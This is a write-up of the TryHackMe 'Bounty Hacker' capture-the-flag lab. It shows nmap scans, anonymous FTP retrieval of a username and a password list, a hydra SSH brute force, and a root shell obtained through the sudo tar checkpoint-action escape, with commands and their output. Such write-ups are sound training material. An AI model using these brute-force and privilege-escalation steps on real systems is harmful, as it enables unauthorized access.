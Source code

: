 ```yaml
---
title: "Bounty Hacker"
date: 2025-01-22
image: /assets/img/tryhackme/BountyHacker/BountyHacker_image.jpg
description: You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
categories: [Tryhackme, Easy]
tags: [linux, web, ssh, hydra, bruteforce, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Bounty Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/cowboyhacker">https://tryhackme.com/r/room/cowboyhacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Bounty Hacker

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:25 EST
Nmap scan report for 10.10.66.27
Host is up (0.040s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.89 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 21,22,80 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:27 EST
Nmap scan report for 10.10.66.27
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.63.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.20 seconds
```
from here I analyzed the services one after another

## FTP Analysis
As we can see in the nmap output the ftp server allow anonymous access. Therefore I trief to access the service

```bash
$ ftp anonymous@10.10.59.122
Connected to 10.10.59.122.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14671|)
```
It took me a while to actually see the files because of many timeouts. Thats why I switched to Filezilla which automatically try to reconnect. After some time I was able to download the following files:
```bash
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
As we can see we got a potential username and probably a password list.

## HTTP Analysis
I analyzed the source code, performed enumeration and tried steganography techniques on all the images without getting anything.

## SSH Analysis
With the given username and the potential password list, I tried to brute force the ssh login using `hydra`
```bash
$ hydra -l lin -P locks.txt ssh://10.10.59.122
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-22 04:43:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.59.122:22/
[22][ssh] host: 10.10.59.122   login: lin   password: [removed]
```
Hydra found a valid credentails, which allowed me to login in and retrieve the user flag.
```bash
$ ssh lin@10.10.59.122
lin@bountyhacker:~/Desktop$ hostname
bountyhacker
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*** removed ***}
```
## Privilege Escalation
For the root flag we need to escalate our privileges. I hab success by executing `sudo -l`
```bash
$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/tar/#shell">gftobins</a> gave me all I needed:
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
